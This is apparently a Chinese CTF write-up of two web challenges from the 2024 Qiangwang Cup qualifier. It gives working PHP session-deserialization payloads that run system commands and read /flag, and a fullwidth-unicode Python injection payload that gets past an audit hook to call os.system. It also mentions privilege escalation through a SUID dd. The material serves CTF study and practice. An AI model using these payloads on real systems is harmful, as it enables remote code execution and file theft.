# 强网杯 2024 初赛 Web Challenge Walkthrough


强网杯 2024 Web Challenge Walkthrough，仅两题

# Web

## [2024 强网杯]platform

扫描目录得到源码

```
/www.zip
```

源码如下

index.php

```
<?php
session_start();
require 'user.php';
require 'class.php';

$sessionManager = new SessionManager();
$SessionRandom = new SessionRandom();

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $_SESSION['user'] = $username;

    if (!isset($_SESSION['session_key'])) {
        $_SESSION['session_key'] =$SessionRandom -> generateRandomString();
    }
    $_SESSION['password'] = $password;
    $result = $sessionManager->filterSensitiveFunctions();
    header('Location: dashboard.php');
    exit();
} else {
    require 'login.php';
}
```

class.php

```
<?php
class notouchitsclass {
    public $data;
    public function __construct($data) {
        $this->data = $data;
    }
    public function __destruct() {
        eval($this->data);
    }
}

class SessionRandom {
    public function generateRandomString() {
    $length = rand(1, 50);

    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';

    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
    }
}

class SessionManager {
    private $sessionPath;
    private $sessionId;
    private $sensitiveFunctions = ['system', 'eval', 'exec', 'passthru', 'shell_exec', 'popen', 'proc_open'];

    public function __construct() {
        if (session_status() == PHP_SESSION_NONE) {
            throw new Exception("Session has not been started. Please start a session before using this class.");
        }
        $this->sessionPath = session_save_path();
        $this->sessionId = session_id();
    }

    private function getSessionFilePath() {
        return $this->sessionPath . "/sess_" . $this->sessionId;
    }

    public function filterSensitiveFunctions() {
        $sessionFile = $this->getSessionFilePath();

        if (file_exists($sessionFile)) {
            $sessionData = file_get_contents($sessionFile);

            foreach ($this->sensitiveFunctions as $function) {
                if (strpos($sessionData, $function) !== false) {
                    $sessionData = str_replace($function, '', $sessionData);
                }
            }
            file_put_contents($sessionFile, $sessionData);

            return "Sensitive functions have been filtered from the session file.";
        } else {
            return "Session file not found.";
        }
    }
}
```

login.php

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>用户登录</title>
    <style>
        body {
            background-color: #f0f4f8;
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        h1 {
            text-align: center;
            color: #333;
            margin-bottom: 20px;
        }
        .login-container {
            background-color: #fff;
            border-radius: 10px;
            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
            padding: 30px;
            width: 300px;
        }
        label {
            display: block;
            margin-bottom: 5px;
            color: #555;
        }
        input[type="text"],
        input[type="password"] {
            width: 100%;
            padding: 10px;
            margin-bottom: 15px;
            border: 1px solid #ddd;
            border-radius: 5px;
            box-sizing: border-box;
        }
        input[type="submit"] {
            background-color: #007BFF;
            color: white;
            border: none;
            padding: 10px;
            border-radius: 5px;
            cursor: pointer;
            width: 100%;
            font-size: 16px;
        }
        input[type="submit"]:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <h1>用户登录</h1>
        <form action="index.php" method="post">
            <label for="username">用户名:</label>
            <input type="text" id="username" name="username" required>
            <label for="password">密码:</label>
            <input type="password" id="password" name="password" required>
            <input type="submit" value="登录">
        </form>
    </div>
</body>
</html>
```

dashborad.php

```
<?php
include("class.php");
session_start();

if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit();
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>任何人都可以登录的平台</title>
    <style>
        body {
            background-color: #f0f4f8;
            font-family: Arial, sans-serif;
            display: flex;
            flex-direction: column;
            align-items: center;
            justify-content: center;
            height: 100vh;
            margin: 0;
            text-align: center;
        }
        h1 {
            color: #333;
            margin-bottom: 20px;
        }
        p {
            color: #555;
            font-size: 18px;
            margin: 0;
        }
        .session-info {
            background-color: #fff;
            border-radius: 10px;
            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
            padding: 20px;
            width: 300px;
            margin-top: 20px;
        }
    </style>
</head>
<body>
    <h1>欢迎来到任何人都可以登录的平台</h1>
    <div class="session-info">
        <p>你好，<?php echo htmlspecialchars($_SESSION['user']); ?>！</p>
    </div>
</body>
</html>
```

user.php

```
<?php

class User {
    private $validUser = [
        'username' => 'admin',
        'password' => 'password'
    ];

    public function authenticate($username, $password) {
        return true;
    }
}
```



随意登录



搭建 `docker` 进行本地调试

**首先对解题思路进行分析**

当访问 `index.php` 时，会将多个信息存入 `session` 中，根据 `php` 中`session` 的机制，这些信息会存储在本地文件内

```
//index.php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $_SESSION['user'] = $username;

    if (!isset($_SESSION['session_key'])) {
        $_SESSION['session_key'] =$SessionRandom -> generateRandomString();
    }
    $_SESSION['password'] = $password;
```

`$SessionRandom -> generateRandomString()` 的作用，是调用 `class.php` 中 `SessionRandom` 的 `generateRandomString()` 函数，这个函数会按照给定的字符生成一个一些随机值并返回

```
class SessionRandom {
    public function generateRandomString() {
    $length = rand(1, 50);

    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';

    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
    }
}
```

当直接访问 `index.php` ，不输入账号密码时





当输入账号密码时，可以看到信息都被存入 `session` 文件中

```
admin/admin
```





然后看 `class.php` ，这个文件内容是关于一些自定义函数和魔术方法，当访问 `index.php` ，就会触发 `class.php` 的 `SessionMaganer->filterSesnsitiveFunctions()` 

关键点在这里，会对 `session` 文件内容进行替换，假如匹配到指定字符串则替换为空，存在**字符串溢出减少漏洞** 

```
private $sensitiveFunctions = ['system', 'eval', 'exec', 'passthru', 'shell_exec', 'popen', 'proc_open'];
....
foreach ($this->sensitiveFunctions as $function) {
                if (strpos($sessionData, $function) !== false) {
                    $sessionData = str_replace($function, '', $sessionData);
                }
            }
```

继续看 `class.php` ，`notouchitsclass` 对象中存在 `eval()` 函数，反序列化的时候会触发，结合前面的 `session` 内容写入，可以总结出生成序列化字符串写入 `session` 中，然后反序列化这一串思路

```
class notouchitsclass {
    public $data;
    public function __construct($data) {
        $this->data = $data;
    }
    public function __destruct() {
        eval($this->data);
    }
}
```

接下来就是找到反序列化的点，哪里会将程序进行反序列化：

在 `dashboard.php` 存在中 `session_start()` 函数，要读取 `session` 文件，就得在读取时进行反序列化

```
<?php
...
session_start();
...
?>
```

在本地继续测试，输入 `admin/system` ，按照源码，`system` 本应该会被替换为空，但是看到本地实际上 `session` 文件中 `password` 仍然为 `system`  



修改程序进一步调试



再次发包，看到 `sessionFile` 得到的值为 `/sess_abc` ，而本地内部默认存储的是 `/tmp/sess_xx` 路径，因此本地的程序并不像理论上的进行运行



找到问题，给 `$sessionPath` 赋值上 `/tmp` 即可 



再次发包，本地的 `system` 被正确替换了





这里字符串溢出就很明显，字符被替换为空，但前面的数字不变

```
s:6:"";
```

在正式进行字符串溢出漏洞利用之前，先做一步确认 `dashboard.php` 会触发反序列化

准备要序列化的内容，当反序列化时，就会触发 `class.php` 的 `notouchitsclass.__destruct()` 的魔术方法  

```
<?php
class notouchitsclass {
    public $data = "system('echo OK > /tmp/OK');";
}
$a = new notouchitsclass();
echo serialize($a);
//O:15:"notouchitsclass":1:{s:4:"data";s:28:"system('echo OK > /tmp/OK');";}
```

直接本地将 session 内容修改

```
user|O:15:"notouchitsclass":1:{s:4:"data";s:28:"system('echo OK > /tmp/OK');";}......
```



访问 `dashboard.php` ，提示权限不够



本地 `docker` 的默认用户是 `root` ，修改之后，它默认权限也变为了 `root` ，将 `session` 文件权限降级

```
chown www-data:www-data /tmp/sess_abc
```





访问 `/dashboard.php` ，本地生成了 `/tmp/OK` ，说明反序列化确实执行了


接下来就是 **字符串溢出减少的利用** 

溢出减少的条件之一：两个相连可控参数，利用传参数组创造这个条件





字符串溢出当有源码时可以本地调试时，构造技巧，可以直接让源码打印出替换后的值，然后改一次发一次，取出来再微调。

构造初步 Payload

```
username=admin&password[]=systemsystem&password[]=";i:1;O:15:"notouchitsclass":1:{s:4:"data";s:17:"system('whoami');";}}
```

发现当传入之后，这里的 `system` 被替换为空了



补上双写(双写的同时不能修改前面的数值，因为双写后有一个 `system` 会被替换为空)

```
username=admin&password[]=systemsystem&password[]=";i:1;O:15:"notouchitsclass":1:{s:4:"data";s:17:"syssystemtem('whoami');";}}
```

多次请求，将 `session` 写入，然后请求 `dashboard.php` ，本地测试成功



接下来打远程 !

发包时会返回 302 重定向，跳转到 `dashboard.php` ，不管它，多发几次，将内容写入 `session`



然后访问 `dashboard.php` ，成功执行 `whoami`



```
username=admin&password[]=systemsystem&password[]=";i:1;O:15:"notouchitsclass":1:{s:4:"data";s:15:"syssystemtem('ls /');";}}
```



```
username=admin&password[]=systemsystem&password[]=";i:1;O:15:"notouchitsclass":1:{s:4:"data";s:20:"syssystemtem('cat /flag');";}}
```




## [2024 强网杯]PyBlockly



根目录服务为 JS Blockly 积木块，当拼接积木然后 `send` 发送时，会发送一个 JSON 数据，如发送 `1111` 



​                                                                                                返回了


**源码如下：**

app.py  // Flask Web服务核心源码

```
from flask import Flask, request, jsonify
import re
import unidecode
import string
import ast
import sys
import os
import subprocess
import importlib.util
import json

app = Flask(__name__)
app.config['JSON_AS_ASCII'] = False

blacklist_pattern = r"[!\"#$%&'()*+,-./:;<=>?@[\\\]^_`{|}~]"

def module_exists(module_name):

    spec = importlib.util.find_spec(module_name)
    if spec is None:
        return False

    if module_name in sys.builtin_module_names:
        return True
    
    if spec.origin:
        std_lib_path = os.path.dirname(os.__file__)
        
        if spec.origin.startswith(std_lib_path) and not spec.origin.startswith(os.getcwd()):
            return True
    return False

def verify_secure(m):
    for node in ast.walk(m):
        match type(node):
            case ast.Import:  
                print("ERROR: Banned module ")
                return False
            case ast.ImportFrom: 
                print(f"ERROR: Banned module {node.module}")
                return False
    return True

def check_for_blacklisted_symbols(input_text):
    if re.search(blacklist_pattern, input_text):
        return True
    else:
        return False


def block_to_python(block):
    block_type = block['type']
    code = ''
    
    if block_type == 'print':
        text_block = block['inputs']['TEXT']['block']
        text = block_to_python(text_block)
        code = f"print({text})"
           
    elif block_type == 'math_number':
        
        if str(block['fields']['NUM']).isdigit():      
            code =  int(block['fields']['NUM']) 
        else:
            code = ''
    elif block_type == 'text':
        if check_for_blacklisted_symbols(block['fields']['TEXT']):
            code = ''
        else:
        
            code =  "'" + unidecode.unidecode(block['fields']['TEXT']) + "'"
    elif block_type == 'max':
        
        a_block = block['inputs']['A']['block']
        b_block = block['inputs']['B']['block']
        a = block_to_python(a_block)  
        b = block_to_python(b_block)
        code =  f"max({a}, {b})"

    elif block_type == 'min':
        a_block = block['inputs']['A']['block']
        b_block = block['inputs']['B']['block']
        a = block_to_python(a_block)
        b = block_to_python(b_block)
        code =  f"min({a}, {b})"

    if 'next' in block:
        
        block = block['next']['block']
        
        code +="\n" + block_to_python(block)+ "\n"
    else:
        return code 
    return code

def json_to_python(blockly_data):
    block = blockly_data['blocks']['blocks'][0]

    python_code = ""
    python_code += block_to_python(block) + "\n" 
        
    return python_code

def do(source_code):
    hook_code = '''
def my_audit_hook(event_name, arg):
    blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
    if len(event_name) > 4:
        raise RuntimeError("Too Long!")
    for bad in blacklist:
        if bad in event_name:
            raise RuntimeError("No!")

__import__('sys').addaudithook(my_audit_hook)

'''
    print(source_code)
    code = hook_code + source_code
    tree = compile(source_code, "run.py", 'exec', flags=ast.PyCF_ONLY_AST)
    try:
        if verify_secure(tree):
            with open("run.py", 'w') as f:
                f.write(code)
            result = subprocess.run(['python', 'run.py'], stdout=subprocess.PIPE, timeout=5).stdout.decode("utf-8")
            os.remove('run.py')
            return result
        else:
            return "Execution aborted due to security concerns."
    except:
        os.remove('run.py')
        return "Timeout!"


@app.route('/')
def index():
    return app.send_static_file('index.html')

@app.route('/blockly_json', methods=['POST'])
def blockly_json():
    blockly_data = request.get_data()
    print(blockly_data)
    print(type(blockly_data))
    blockly_data = json.loads(blockly_data.decode('utf-8'))
    print(blockly_data)
    try:
        python_code = json_to_python(blockly_data)
        return do(python_code)
    except Exception as e:
        return jsonify({"error": "Error generating Python code", "details": str(e)})
    
if __name__ == '__main__':
    app.run(host = '0.0.0.0')
```

index.html  //网站根目录 JS 服务，会给 `/blockly_json` 发送 POST 请求及数据

```
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>PyBlockly</title>
    <script src="https://unpkg.com/blockly/blockly.min.js"></script>
    <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
  </head>
  <body>
    <h1>PyBlockly</h1>
    <div id="blocklyDiv" style="height: 480px; width: 600px;"></div>
    <button id="saveButton">Send</button>

    <xml id="toolbox" style="display: none">
      <block type="text"></block>
      <block type="math_number"></block>
      <block type="math_arithmetic"></block>
      <block type="print"></block>
      <block type="max"></block>
      <block type="min"></block>
    </xml>

    <script>
      // Define custom 'print' block
      Blockly.defineBlocksWithJsonArray([{
        "type": "print",
        "message0": "print %1",
        "args0": [
          {
            "type": "input_value",
            "name": "TEXT"
          }
        ],
        "previousStatement": null,
        "nextStatement": null,
        "colour": 160,
        "tooltip": "Prints a value",
        "helpUrl": ""
      }]);

      // Define custom 'max' block
      Blockly.defineBlocksWithJsonArray([{
        "type": "max",
        "message0": "max of %1 and %2",
        "args0": [
          {
            "type": "input_value",
            "name": "A"
          },
          {
            "type": "input_value",
            "name": "B"
          }
        ],
        "output": "Number",
        "colour": 230,
        "tooltip": "Returns the maximum of two numbers",
        "helpUrl": ""
      }]);

      // Define custom 'min' block
      Blockly.defineBlocksWithJsonArray([{
        "type": "min",
        "message0": "min of %1 and %2",
        "args0": [
          {
            "type": "input_value",
            "name": "A"
          },
          {
            "type": "input_value",
            "name": "B"
          }
        ],
        "output": "Number",
        "colour": 230,
        "tooltip": "Returns the minimum of two numbers",
        "helpUrl": ""
      }]);


      // Initialize Blockly
      var workspace = Blockly.inject('blocklyDiv', {
        toolbox: document.getElementById('toolbox'),
      });

      // Handle the button click event
      $('#saveButton').click(function() {
        // Convert the Blockly workspace to JSON
        var json = Blockly.serialization.workspaces.save(workspace);

        // Send the JSON to the Flask backend
        $.ajax({
          type: 'POST',
          url: '/blockly_json',
          data: JSON.stringify(json),
          contentType: 'application/json',
          success: function(response) {
            alert('JSON sent to backend and received response: ' + response);
          },
          error: function(error) {
            alert('Error sending JSON to backend.');
          }
        });
      });
    </script>
  </body>
</html>
```

源码 + 自写注释，注释逻辑：从程序入口点开始看，跳转到其他自定义函数就往自定义函数写，最终写到程序执行结束

```
from flask import Flask, request, jsonify
import re
import unidecode
import string
import ast
import sys
import os
import subprocess
import importlib.util
import json

app = Flask(__name__)
app.config['JSON_AS_ASCII'] = False

blacklist_pattern = r"[!\"#$%&'()*+,-./:;<=>?@[\\\]^_`{|}~]"

def module_exists(module_name):

    spec = importlib.util.find_spec(module_name)
    if spec is None:
        return False

    if module_name in sys.builtin_module_names:
        return True
    
    if spec.origin:
        std_lib_path = os.path.dirname(os.__file__)
        
        if spec.origin.startswith(std_lib_path) and not spec.origin.startswith(os.getcwd()):
            return True
    return False

def verify_secure(m):
    for node in ast.walk(m):  # 遍历抽象语法树（AST）中的所有节点
        match type(node):   # 返回每个节点的类型, 并用match 匹配
            case ast.Import:  # 如果匹配到是 ast.Import 节点类型, 则返回 false
                print("ERROR: Banned module ") 
                return False
            case ast.ImportFrom:  # 如果匹配到是 ast.ImportFrom 节点类型, 则返回 false
                print(f"ERROR: Banned module {node.module}")
                return False
    return True  # 如果都没匹配到, 则返回 true

def check_for_blacklisted_symbols(input_text): # 搭配 block_to_python 自定义函数取处理 json 数据
    if re.search(blacklist_pattern, input_text):  # 将字符与黑名单字符进行匹配，成功则返回true
        return True
    else:
        return False


def block_to_python(block):  # 该自定义函数的功能总体为处理请求体取出的 json 数据
    block_type = block['type']  # 取出 'type' 的值
    code = ''
    
    if block_type == 'print':  
        text_block = block['inputs']['TEXT']['block']  # 如果取出的 'type' 的值为 'print', 则继续取内部的 ['inputs']['TEXT']['block']的键值
        text = block_to_python(text_block)  # 将取出的键值(还是 json 数据)继续给当前自定义函数, 直到得到最终的匹配值返回
        code = f"print({text})"  # 然后将最后匹配好的字符取出给 code
           
    elif block_type == 'math_number': 
                                                # 如果block_type是 'math_number', 继续
        if str(block['fields']['NUM']).isdigit():  
            code =  int(block['fields']['NUM']) # 如果['fields']['NUM']取出的字符转为字符串后是纯字符串型，则转为int类型并赋值给code
        else:
            code = ''
    elif block_type == 'text':  
        if check_for_blacklisted_symbols(block['fields']['TEXT']): #如果block_type是 'text'，则在调用check_for_blacklisted_symbols，继续跟进
            code = ''  # 返回true, 则code为空
        else:
        
            code =  "'" + unidecode.unidecode(block['fields']['TEXT']) + "'"  # 返回flase，则将字符进行unidecode解码(用于处理特殊字符，这里存在特殊字符全角转换绕过)并拼接给code
    elif block_type == 'max':
        
        a_block = block['inputs']['A']['block']
        b_block = block['inputs']['B']['block']
        a = block_to_python(a_block)    #如果类型是max，则取出 ['inputs']['A'/'B']['block']的值丢给当前自定义函数继续执行, 直到得到最终的匹配值返回
        b = block_to_python(b_block)    
        code =  f"max({a}, {b})"    # 然后将最后匹配好的字符取出给 code

    elif block_type == 'min':
        a_block = block['inputs']['A']['block']
        b_block = block['inputs']['B']['block']
        a = block_to_python(a_block)   # #如果类型是max，则取出 ['inputs']['A'/'B']['block']的值丢给当前自定义函数继续执行, 直到得到最终的匹配值返回
        b = block_to_python(b_block)
        code =  f"min({a}, {b})"   # 然后将最后匹配好的字符取出给 code

    if 'next' in block:
        
        block = block['next']['block']
        
        code +="\n" + block_to_python(block)+ "\n"
    else:
        return code 
    return code  # 最终将参数code返回

def json_to_python(blockly_data):
    block = blockly_data['blocks']['blocks'][0]  # 取出 json 数据的 ['blocks']['blocks'][0], 就是走过两个 blocks 元素后取出内部的键值(一个内嵌的json数据)

    python_code = "" 
    python_code += block_to_python(block) + "\n"  # 将取出的数据丢给自定义函数 block_to_python, 继续跟进到block_to_python内部
        
    return python_code

def do(source_code):
    hook_code = '''  
def my_audit_hook(event_name, arg):
    blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
    if len(event_name) > 4:
        raise RuntimeError("Too Long!")
    for bad in blacklist:
        if bad in event_name:
            raise RuntimeError("No!")

__import__('sys').addaudithook(my_audit_hook)

'''
    print(source_code)
    code = hook_code + source_code
    tree = compile(source_code, "run.py", 'exec', flags=ast.PyCF_ONLY_AST)  # flags=ast.PyCF_ONLY_AST, 这指定了将字符串编译为抽象语法树, 而不是编译成可执行的字节码
    try:
        if verify_secure(tree):  # 继续跟进到 verify_secure() 自定义函数, 返回 true 则往下执行
            with open("run.py", 'w') as f: 
                f.write(code)  # 将 code(hook_code 和 传入的值拼接的字符串) 写入 run.py 文件中
            result = subprocess.run(['python', 'run.py'], stdout=subprocess.PIPE, timeout=5).stdout.decode("utf-8")  # 用 python 运行 run.py 并捕获执行结果传入给 result
            os.remove('run.py')
            return result # 返回执行结果
        else:  # 返回 false 则返回报错字符串
            return "Execution aborted due to security concerns."
    except:
        os.remove('run.py')
        return "Timeout!"


@app.route('/')
def index():
    return app.send_static_file('index.html')   # 访问网站根目录，返回 index.html 静态文件给客户端

@app.route('/blockly_json', methods=['POST'])  # 当请求 /blockly_json 且请求方式为 POST 时执行下面代码
def blockly_json():
    blockly_data = request.get_data()  # 返回 data 请求体, 这里是 json 数据
    print(type(blockly_data))
    blockly_data = json.loads(blockly_data.decode('utf-8')) # 将 JSON 格式的字符串解析为 Python 对象, 这样才能对字符串进行python操作
    print(blockly_data)
    try:
        python_code = json_to_python(blockly_data)  # 调用 json_to_python 自定义函数，这里跟进到 json_to_python 自定义函数中去
        return do(python_code) # 跟进到 do 自定义函数
    except Exception as e:
        return jsonify({"error": "Error generating Python code", "details": str(e)})  # 将报错及字典内容转换为 json 响应格式, 并将内容返回给客户端
    
if __name__ == '__main__':
    app.run(host = '0.0.0.0')
```

程序会先将输入的数据进行处理，并与 `hook_code` 进行拼接，然后将拼接后的内容写入 `run.py` 并执行，返回执行结果

hook_code，关键代码块如下，当输入 xxx 时，程序会将输入的字符拼接在下面并执行代码

```
def my_audit_hook(event_name, arg):
    blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
    if len(event_name) > 4:
        raise RuntimeError("Too Long!")
    for bad in blacklist:
        if bad in event_name:
            raise RuntimeError("No!")

__import__('sys').addaudithook(my_audit_hook)
xxx
```

解题思路，写入 `__import__(os).system(whoami)` ，命令注入，但会被 `if len(event_name) > 4: raise RuntimeError("Too Long!")`  拦截

绕过思路：

`locals()` 包含常见的函数，使用 `update()` 覆盖 `len()` 函数，当用 `len()` 函数时去执行匿名函数 `lambda x:4`，让其只返回 4

```
locals().update({"len":lambda x:4});__import__("os").system("whoami")
```

程序设置了黑名单，将 `$!` 等有特殊作用的字符全部过滤了，但是下面的代码存在编码转换绕过

```
code =  "'" + unidecode.unidecode(block['fields']['TEXT']) + "'"
# 将字符进行unidecode解码(用于处理特殊字符，这里存在特殊字符全角转换绕过)并拼接给code
```

半角全角编码转换 py 脚本

```
def to_fullwidth(text):
    return ''.join([chr(ord(char) + 0xFEE0) if '!' <= char <= '~' else char for char in text])

def to_halfwidth(text):
    return ''.join([chr(ord(char) - 0xFEE0) if '！' <= char <= '～' else char for char in text])

# 示例用法
text = "!!!"
print("全角:", to_fullwidth(text))  # 转换为全角
print("半角:", to_halfwidth(to_fullwidth(text)))  # 转换为半角
```

假如输入一个中文，会转为



输入全角的 `!!!`，可以看到对方会解析成正常的 `!!!`



通过网站根目录 JS 服务发送的请求体中，是 `['blocks'][blocks]['type']=='print'` ，因此最终 code 代码会被 `f"print({text})"` 包裹

```
if block_type == 'print':
    text_block = block['inputs']['TEXT']['block']
    text = block_to_python(text_block)
    code = f"print({text})"
```

最终命令注入时闭合： `');xxxx#`

最终 Payload 

```
');locals().update({"len":lambda x:4});__import__("os").system("whoami")#
```

半角转全角

```
＇）；ｌｏｃａｌｓ（）．ｕｐｄａｔｅ（｛＂ｌｅｎ＂：ｌａｍｂｄａ ｘ：４｝）；＿＿ｉｍｐｏｒｔ＿＿（＂ｏｓ＂）．ｓｙｓｔｅｍ（＂ｗｈｏａｍｉ＂）＃
```





flag 文件权限级为 `root` ，当前权限为 `ctf` 



dd 具有SUID位，有 `root` 权限，直接利用 `dd if=$FILES` 读取文件




---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/%E5%BC%BA%E7%BD%91%E6%9D%AF%E9%83%A8%E5%88%86web%E5%A4%8D%E7%8E%B0/  

